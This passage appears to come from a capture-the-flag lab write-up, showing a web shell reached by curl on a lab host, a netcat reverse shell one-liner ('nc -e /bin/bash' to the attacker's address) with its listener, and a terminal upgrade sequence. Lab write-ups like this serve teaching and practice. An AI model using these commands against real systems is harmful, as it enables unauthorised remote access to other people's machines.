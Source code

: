 Now I can reach it at:

```

root@kali# curl http://10.10.10.143/0xdf.php?cmd=id
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=id  --output -
uid=33(www-data) gid=33(www-data) groups=33(www-data)
root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=id  --output - | xxd
00000000: 7569 643d 3333 2877 7777 2d64 6174 6129  uid=33(www-data)
00000010: 2067 6964 3d33 3328 7777 772d 6461 7461   gid=33(www-data
00000020: 2920 6772 6f75 7073 3d33 3328 7777 772d  ) groups=33(www-
00000030: 6461 7461 290a 0000 0000 0000            data).......

```

It looks like it appended some nulls on the end for some reason, probably a part of the sqli file write. But it still works.

#### Shell

I can use that to get a shell:

```

root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=nc+-e+/bin/bash+10.10.14.8+443

```

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:37142.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell Upgrade

With either shell, I’ll upgrade with the standard technique:
1. `python -c 'import pty;pty.spawn("bash")'`
2. [ctrl-z] to background shell
3. `stty raw -echo`
4. `fg`
5. `reset`
6. Enter `screen` if asked for a terminal type.

Now I have a full terminal, with arrows, tab completion, etc:
